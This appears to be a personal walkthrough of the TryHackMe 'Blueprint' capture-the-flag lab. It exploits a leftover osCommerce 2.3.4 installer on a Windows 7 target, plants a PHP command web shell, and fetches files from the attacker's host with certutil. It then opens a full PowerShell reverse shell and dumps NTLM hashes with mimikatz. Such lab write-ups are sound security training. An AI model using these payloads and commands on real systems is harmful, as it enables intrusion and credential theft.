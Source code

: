 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Blueprint
# DESCRIPTION       . Hack into this Windows machine and escalate your privileges to Administrator.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/blueprint
```

```
sudo nmap -sSVC -T5 -PN 10.10.81.40 -oN blueprint
```

```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: 404 - File or directory not found.
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
```

- Both `443` and `8080` ports seem to run the same web application. However, the application doesn't seem properly configured and we get access to some documentation, the database schema and to a HTML only front end of the app.

- I decided to spend some time reading about this app, `oscommerce`. I found out that the install process is happening in `/oscommerce-2.3.4/catalog/install/install.php` and we can append `?step=` to skip to whatever installation step we want.

- I also found out that this `/install` directory should be removed after the installation is finished, as it represents a potential attack vector, since an unauthorized person can "reinstall" the page  - more exactly, step 4 of the installation process. This will (re)generate the .php config file - which the app doesn't check to see if it already exists or not - and an attacker an inject code into this config file.

- So this is when decided to check `exploit-db` for CVEs.

- I found [this](https://www.exploit-db.com/exploits/44374) and [this](https://www.exploit-db.com/exploits/50128). I tried modifying the first script to run on `2.3.4` and it did ok ; I used a PHP reverse shell as the payload and it ... almost worked??? 

- My netcat listener would receive the connection and then close instantly. I used `-k` to keep it alive, but i think it was still killed in the background, as the "shell" wasn't responding to any commands. 

- Decided to upload a simple cmd php shell. - `<?php echo shell_exec($_GET["cmd"]); ?>`

- Using the payload below, I've transferred it to the target webserver using the script above.

```
shell_exec("certutil -urlcache -split -f http://10.11.53.46:80/shell.php shell.php");'
```

- I got a reverse shell using a powershell one liner, URL encoded in the `/shell.php?cmd=` URL.

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('ip',3131);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

- The flag is located at `C:\Users\Administrator\Desktop\root.txt.txt`.

- The CTF asks for the password hash of user "Lab". We can dump that using mimikatz.

- I transferred mimikatz on the target machine using

```
certutil -urlcache -split -f "http://IP:80/mimikatz.exe" mimikatz.exe
```

- Commands like `Invoke-RestMethod` and `Invoke-WebRequest` did not seem to be working.

- Using `.\mimikatz.exe "lsadump::sam" exit` 

```
mimikatz(commandline) # lsadump::sam
Domain : BLUEPRINT
SysKey : 147a48de4a9815d2aa479598592b086f
Local SID : S-1-5-21-3130159037-241736515-3168549210

SAMKey : 3700ddba8f7165462130a4441ef47500

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 549a1bcb88e35dc18c7a0b0168631411

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : Lab
  Hash NTLM: 30e87bf999828446a1c1209ddde4c450

mimikatz(commandline) # exit
Bye!
```

**PS**: hash can be cracked using crackstation. 